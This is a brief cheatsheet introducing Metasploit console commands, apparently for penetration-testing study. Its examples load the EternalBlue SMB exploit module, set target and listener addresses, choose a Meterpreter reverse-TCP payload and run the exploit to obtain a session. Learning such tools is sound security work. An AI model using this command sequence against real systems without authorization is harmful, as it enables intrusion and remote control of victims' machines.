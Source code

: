 # Cheatsheet - Metaspoilt Introduction

| Command / Action | Example | Purpose |
|---|---|---|
| Enter module | `use exploit/windows/smb/ms17_010_eternalblue` | Load a specific exploit or module |
| Show module options | `show options` | Lists required/optional parameters |
| Set module value | `set RHOSTS 10.10.10.5` | Configure target for current module |
| Set global value | `setg LHOST 10.8.0.1` | Apply setting across all modules |
| Unset values | `unset RHOSTS` / `unset all` | Remove one or all options |
| Show payloads | `show payloads` | List compatible payloads for module |
| Choose payload | `set PAYLOAD windows/x64/meterpreter/reverse_tcp` | Select interaction method |
| Run exploit/module | `exploit` / `run` | Execute module |
| Background run | `exploit -z` | Run and background session |
| Check vuln | `check` | Test if target is vulnerable |
| Module info | `info` / `info <module>` | Show details & references |
| Search modules | `search ms17-010` | Find modules by keyword or type |
| Leave module | `back` | Exit to msfconsole root |
| Sessions mgmt | `sessions` / `sessions -i 1` | List and interact with sessions |
| Background session | `background` or `CTRL+Z` | Push session to background |
| Help & history | `help <command>` / `history` | Command reference & log |
